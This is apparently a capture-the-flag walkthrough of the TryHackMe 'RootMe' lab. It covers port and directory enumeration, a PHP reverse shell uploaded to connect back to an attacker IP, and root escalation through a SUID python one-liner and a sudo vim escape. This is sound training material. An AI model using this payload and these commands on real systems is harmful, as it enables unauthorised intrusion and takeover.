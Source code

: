 # TryHackMe - RootMe  
🔗 https://tryhackme.com/room/rootme

## 🎯 Objective

The goal of this room is to exploit a vulnerable web server to gain a reverse shell, escalate privileges, and retrieve the root flag. It simulates a typical beginner-level Linux web server penetration test scenario.

---

## 🖥️ Target Information

| Property     | Value                   |
|--------------|-------------------------|
| IP Address   | 10.10.84.242            |
| OS           | Ubuntu Linux (inferred) |
| Web Server   | Apache 2.4.29           |
| SSH Server   | OpenSSH 7.6p1           |

---

## 🔍 1. Enumeration

### 🔧 Nmap Scan

Command:
nmap -sV -O 10.10.84.242

- Results:
    - 22/tcp — OpenSSH 7.6p1 (Ubuntu)
    - 80/tcp — Apache httpd 2.4.29 (Ubuntu)
- 💡 The Apache and OpenSSH versions suggest this is likely Ubuntu 18.04.

---

### 🔍 Directory Brute Force with Gobuster

Command:
gobuster dir -u http://10.10.84.242 -w /usr/share/wordlists/dirb/common.txt -x php

- Discovered Paths:
    - /uploads → 301 redirect
    - /css → 301 redirect
    - /js → 301 redirect
    - /panel → 301 redirect ✅ Login panel with file upload
    - /server-status → 403 Forbidden
- 💡 The /panel directory presented a web admin interface that allowed file uploads, making it a potential attack vector.

---

## 💥 2. Exploitation

### 🔁 Reverse Shell Setup

Step 1: Start a netcat listener on the attacker's machine

Command:
nc -lvnp 12345

Step 2: Create and upload the following PHP reverse shell

Payload:
<?php
$ip = '10.10.126.108';  // Your attacker IP
$port = 12345;
$sock = fsockopen($ip, $port);
$proc = proc_open("/bin/bash -i", array(0 => $sock, 1 => $sock, 2 => $sock), $pipes);
?>

Step 3: Access the uploaded file at /uploads/<filename>.php to trigger the shell

✅ Reverse shell obtained as www-data.

---

## 🔓 3. Privilege Escalation

### 🔍 SUID Binary Enumeration

Command:
find / -user root -perm -u=s -type f 2>/dev/null

📌 Key SUID binary found:
/usr/bin/python

---

### 🧪 Method 1: SUID Python Exploit

Command:
/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'

✅ Root shell obtained.

---

### 🧪 Method 2: sudo + vim

Step 1: Check sudo permissions

Command:
sudo -l

Output:
(ALL) NOPASSWD: /usr/bin/vim

Step 2: Escape to shell using:

Command:
sudo vim -c ':!bash'

✅ Root shell obtained via vim.

---

## 🗝️ 4. Post-Exploitation

- user.txt: Not found (possibly deleted or hidden)
- root.txt: Found at /root/root.txt after privilege escalation

---

## 📚 Lessons Learned

- File upload vulnerabilities can lead directly to RCE if not validated.
- Always check for SUID binaries — python/perl can lead to easy root access.
- `sudo -l` often exposes overlooked escalation paths like vim, less, etc.
- The basic attack chain (RCE → Shell → Escalation) is essential to understand.

---

## ✅ Summary

| Phase                | Status            |
|---------------------|-------------------|
| Enumeration          | ✅ Completed       |
| Exploitation         | ✅ File upload → Reverse shell |
| Reverse Shell        | ✅ Obtained as www-data |
| Privilege Escalation | ✅ Python + sudo vim |
| Root Flag            | ✅ Retrieved       |
